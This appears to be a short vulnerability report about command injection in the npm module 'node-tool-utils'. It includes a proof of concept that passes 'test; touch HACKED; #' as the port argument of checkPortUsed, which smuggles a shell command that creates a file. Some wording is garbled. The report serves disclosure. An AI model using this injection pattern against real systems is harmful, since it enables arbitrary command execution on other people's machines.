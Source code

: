 # :bug: Description

The `node-tool-utils` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
const tool = require('node-tool-utils');
tool.checkPortUsed("test; touch HACKED; #"); //The *port* parameter should be numeric and inserted as 2' argument of

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i node-tool-utils # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
